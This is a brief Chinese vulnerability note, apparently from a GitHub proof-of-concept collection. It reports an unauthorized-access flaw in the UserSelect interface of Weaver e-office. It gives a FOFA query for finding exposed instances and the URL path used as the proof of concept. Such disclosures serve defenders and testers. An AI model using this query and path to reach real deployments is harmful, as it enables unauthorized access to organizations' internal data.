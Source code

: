## 泛微e-office系统UserSelect接口存在未授权访问漏洞

## fofa
```
app="泛微-EOffice"
```


## poc
```
http://127.0.0.1/UserSelect/
```

![image](../../images/5c2fb92c-b176-47d3-a038-ea861d8a1d30.png)
